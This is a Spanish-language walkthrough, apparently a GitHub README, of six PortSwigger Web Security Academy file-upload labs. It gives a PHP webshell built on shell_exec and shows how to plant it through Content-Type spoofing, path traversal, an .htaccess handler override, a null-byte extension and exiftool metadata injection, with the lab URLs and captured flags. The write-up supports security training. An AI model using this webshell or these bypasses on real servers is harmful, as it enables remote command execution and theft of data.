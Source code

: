 ##PortSwigger - Webshell

# Lab1
En este lab, se nos presenta un sistema de login donde podemos subir un archivo sin sanitizar. Subimos un archivo PHP como "pwned.php" y accedemos a la webshell con el siguiente enlace:

https://0a81006804832510849c04de00e800b0.web-security-academy.net/files/avatars/pwned.php?cmd=whoami

Respuesta:
- carlos

El contenido de la webshell es el siguiente:

• <?php echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>"; ?>


Luego, para completar el lab, accedemos a la carpeta `/home/carlos/secret` para encontrar la flag:

https://0a81006804832510849c04de00e800b0.web-security-academy.net/files/avatars/pwned.php?cmd=cat%20/home/carlos/secret

Respuesta:
- 4ThqTUOfwcuCkavnxxofmt8g9lmf5Ozj

# Lab2
En este lab, se nos impide subir archivos PHP, pero podemos eludir esta restricción utilizando BurpSuite. Modificamos la petición para cambiar el tipo de contenido a "image/png" y subimos el archivo "pwned.php". Luego, ejecutamos la webshell:

https://0a81006804832510849c04de00e800b0.web-security-academy.net/files/avatars/pwned.php?cmd=cat%20/home/carlos/secret

Respuesta:
- aBKOzOBOVJm8gcKUDu4YSdYTiSt3nnEm

## Lab3
En este lab, la carpeta "/avatars" está sanitizada, por lo que debemos realizar un ataque de path traversal. Subimos la webshell como "../pwned.php" de forma que evitemos el directorio sanitizado mediante un bypass con el nombre y utilizamos BurpSuite para cambiar el nombre del archivo. Luego, accedemos a la webshell en la nueva ubicación:

https://0a6f0056042de6df8351a56a00f00063.web-security-academy.net/files/pwned.php?cmd=whoami

Respuesta:
- carlos

Para obtener la flag:

https://0a6f0056042de6df8351a56a00f00063.web-security-academy.net/files/pwned.php?cmd=cat%20/home/carlos/secret

Respuesta:
- lQZg3EpoTDXqTBUsJGj4kG1K6gtvelMx

# Lab4
En este lab, no se permite la ejecución de archivos .php. Cambiamos la extensión del archivo a ".png" y subimos un archivo ".htaccess" para permitir la ejecución de archivos ".png" como ".php". Ejecutamos la webshell:

https://0a3700c704dca7b28081adda00cd0094.web-security-academy.net/files/avatars/pwned.png?cmd=cat%20/home/carlos/secret

Contenido de ".htaccess" es el siguiente:

•AddType application/x-httpd-php .png

Respuesta:
- z0X9db4IUCnJOKli3LpTghJtobI5pmGD

# Lab5
En este lab, solo se permiten archivos ".png" y ".jpeg". Utilizamos BurpSuite para cambiar el nombre del archivo y el tipo de contenido para eludir la restricción. Subimos el archivo como "pwned.php%00.png" y ejecutamos la webshell:

https://0abb00e3043ba7768096c6bb0014005b.web-security-academy.net/files/avatars/pwned.php?cmd=cat%20/home/carlos/secret

Respuesta:
- ggRQHtZZeBt2dChk990rBYnkZcVnqs2E

# Lab6
En este lab, solo se permiten imágenes. Utilizamos la herramienta "exiftool" para mezclar el código PHP con una imagen. Subimos el archivo "exploit.php" y ejecutamos la webshell:

Primero descargamos una imagen cualquiera con el nombre, en este caso  "United.png"y luego con el siguiente comando hacemos que la imagen contenga el codigo php malicioso:

>exiftool -Comment='<?php echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";?>' /home/kali/Desktop/Untitled.png -o exploit.php

https://0a93002604f390db8204936f0030003d.web-security-academy.net/files/avatars/exploit.php?cmd=cat%20/home/carlos/secret

Respuesta:
- YpUjBhe6HOxnddYWHLnHLyfyDAm1CIVF
